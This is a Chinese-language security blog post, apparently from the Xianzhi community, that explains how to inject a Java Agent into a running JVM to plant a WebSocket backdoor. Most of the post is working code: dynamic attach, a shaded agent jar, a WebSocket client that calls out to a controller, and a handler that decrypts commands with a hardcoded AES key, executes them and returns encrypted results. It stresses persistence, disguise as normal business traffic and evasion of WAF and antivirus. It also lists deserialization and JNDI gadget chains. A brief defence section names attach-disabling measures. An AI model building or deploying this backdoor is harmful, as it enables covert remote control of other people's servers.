







# Java Agent 注入 WebSocket 篇-先知社区

> **来源**: https://xz.aliyun.com/news/17775  
> **文章ID**: 17775

---

## Agent

如果要对其进行Agent注入的编写，需要先理解三个名字premain，agentmain，Instrumentation

`premain`方法在 JVM 启动阶段调用，一般维持权限的时候不会使用

`agentmain`方法在 JVM 运行时调用 常用的

`Instrumentation`实例为代理类提供了修改类字节码、监控类加载等功能

### 前言：为什么选择 Java Agent + WebSocket？

作为权限维持，落地的内存马容易被查杀到，使用Agent可以不改源码的前提下注入，监控，修改。

### 想法

看起来很正常的业务越不会被发现，甚至是对其进行替代

使用 `java.lang.instrument` 方式编写 Agent

利用 `VirtualMachine.attach` 动态挂载 agent，实现**对正在运行的 Java 进程注入 WebSocket 后门**。

利用`AES`进行数据加密命令加密

长期维持通信信道

如果遇见自带有websocket的可以直接使用现有通信通道

可植入现有业务流程之中（如用户聊天系统、推送系统中）

配合 WebSocket 协议绕 WAF

### 注入的流程

#### 连接注入JVM

静态注入容易被检测，所以我们采取动态注入，也就是在JVM运行的时候进行注入

```
VirtualMachine vm = VirtualMachine.attach(pid);
//pid是JVM所在的服务，整个操作是连接JVM
vm.loadAgent(agentPath);

//agentPath是你要注入的agent的jar包
```

#### WebScoket C2

制作WebSocket的步骤

参考一下我的pom

```
    <dependencies>

        <dependency>
            <groupId>org.glassfish.tyrus</groupId>
            <artifactId>tyrus-server</artifactId>
            <version>2.1.1</version>
        </dependency>
        <dependency>
            <groupId>org.json</groupId>
            <artifactId>json</artifactId>
            <version>20210307</version>
        </dependency>
        <dependency>
            <groupId>org.java-websocket</groupId>
            <artifactId>Java-WebSocket</artifactId>
            <version>1.5.2</version>
        </dependency>
    </dependencies>
```

比较重要的是，有一些依赖需要直接跟随打包

```
<build>
    <plugins>
        <plugin>
            <groupId>org.apache.maven.plugins</groupId>
            <artifactId>maven-shade-plugin</artifactId>
            <version>3.2.4</version>
            <executions>
                <execution>
                    <phase>package</phase>
                    <goals>
                        <goal>shade</goal>
                    </goals>
                    <configuration>
                        <transformers>
                            <transformer implementation="org.apache.maven.plugins.shade.resource.ManifestResourceTransformer">
                                <manifestEntries>
                                    <Premain-Class>org.example.MyAgent</Premain-Class>
                                    <Agent-Class>org.example.MyAgent</Agent-Class>
                                    <Can-Redefine-Classes>true</Can-Redefine-Classes>
                                    <Can-Retransform-Classes>true</Can-Retransform-Classes>
                                </manifestEntries>
                            </transformer>
                        </transformers>
                    </configuration>
                </execution>
            </executions>
        </plugin>
    </plugins>
</build>
<!--  里面的属性数据需要根据自己需求来修改  -->
```

##### Websocket管理器(看起来像正常业务)

```
package org.example;

import java.util.Base64;

public class WSManager {
    private static WSClient client;

    public static void setClient(WSClient c) {
        client = c;
    }

    public static void sendEncrypted(String plaintext) {
        try {
            byte[] encrypted = AES.encrypt(plaintext, "1234567890abcdef");
            client.send(Base64.getEncoder().encodeToString(encrypted));
        } catch (Exception ignored) {}
    }
}
```

上面代码主要的作用是对其进行数据发送加密处理

```
package org.example;

import org.java_websocket.client.WebSocketClient;
import org.java_websocket.handshake.ServerHandshake;

import java.net.URI;

public class WSClient extends WebSocketClient {

    public WSClient(URI serverUri) {
        super(serverUri);
    }

    @Override
    public void onOpen(ServerHandshake handshakedata) {
        WSManager.setClient(this);
    }

    @Override
    public void onMessage(String message) {
        CommandHandler.handle(message);
    }

    @Override
    public void onClose(int code, String reason, boolean remote) {

    }

    @Override
    public void onError(Exception ex) {
        ex.printStackTrace();
    }
}
//简单的一个客户端的样子
```

##### 命令执行部分CommandHandler

```
package org.example;

import org.json.JSONObject;

import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.util.Base64;
import java.util.stream.Collectors;

public class CommandHandler {
    public static void handle(String msg) {
        try {
            String json = AES.decrypt(Base64.getDecoder().decode(msg), "1234567890abcdef");
            //先对其进行解密
            JSONObject obj = new JSONObject(json);
            String type = obj.getString("type");
            String payload = obj.getString("payload");
            //对其进行json处理，像正常业务
            if ("exec".equals(type)) {
                ProcessBuilder pb = new ProcessBuilder(payload.split(" "));
                pb.redirectErrorStream(true);
                //命令执行
                String result = new BufferedReader(
                        new InputStreamReader(pb.start().getInputStream()))
                        .lines().collect(Collectors.joining("
"));
            //正常返回结果
                JSONObject res = new JSONObject();
                res.put("type", "result");
                res.put("payload", result);

                WSManager.sendEncrypted(res.toString());
                //加密返回
            }

        } catch (Exception ignored) {
            ignored.printStackTrace();
        }
    }
}

```

#### 数据包部分



这是在执行命令并且返回回来后的数据包,除了发送命令过去的时候会是明文，但也可以对其进行修改



从数据包中，看不出什么异常，避免了WAF的检测

### 拓展

```
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(decodedBytes));
Object cmdObj = ois.readObject();
//如果觉得这样的执行可能被检测到
//CC链
BadAttributeValueExpException
    -> toString()
    -> Transformer (InvokerTransformer)
    -> Runtime.getRuntime().exec()

//Spring BeanFactory
TemplatesImpl
  -> getOutputProperties()
  -> 触发字节码加载
  -> 加载恶意类字节码
//JDBC
JdbcRowSetImpl
  -> setDataSourceName("rmi://xxxxxx/obj")
  -> getDatabaseMetaData()
  -> JNDI 注入

```

### 防御

JVM添加参数

```
-Djdk.attach.allowAttachSelf=false
```

移除 JVM 的 Attach 功能

```
$JAVA_HOME/lib/tools.jar
$JAVA_HOME/lib/libattach.so   (Linux)
$JAVA_HOME/jre/lib/libattach.dylib (macOS)
```

### 运行截图



先启动了监听端



添加了一部分输出，让其更明显



### 免杀效果？


